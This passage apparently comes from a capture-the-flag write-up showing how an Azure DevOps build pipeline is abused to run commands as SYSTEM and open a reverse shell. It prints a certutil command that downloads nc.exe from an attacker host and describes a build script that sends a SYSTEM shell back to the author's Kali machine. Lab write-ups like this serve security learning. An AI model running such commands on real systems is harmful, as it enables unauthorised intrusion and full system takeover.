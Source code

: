 The second issue is I was prompted with this error when trying to build, the pool name "Default" was not valid. [This article](https://docs.microsoft.com/en-us/azure/devops/pipelines/agents/pools-queues?view=azure-devops&tabs=yaml%2Cbrowser) showed me where to find the pool names. 
![[18.png]]

After selecting the pipeline, chaning the default pool and adding a "whoami" to check if I can execute code here, I ran the build. 
![[19.png]]

After running the build, and looking through the logs for the multi line script, it shows the results of whoami, not only can I execute code via this build script, but it is executed as NT AUTHORITY\SYSTEM
![[16.png]]

I had uploaded nc.exe earlier on the system when I was in the IIS shell
```sh
c:\Users\Public>certutil -f -urlcache http://10.10.14.12/nc.exe nc.exe
certutil -f -urlcache http://10.10.14.12/nc.exe nc.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

Since I can execute commands as SYSTEM here, I can use nc.exe to get a reverse shell back to my kali. The image below shows the final build script being executed. 

![[final shell.png]]

When the multi line script executes, it sends back a SYSTEM shell.
![[21.png]]

```sh
W:\agents\agent11\_work\8\s>
whoami
nt authority\system
```

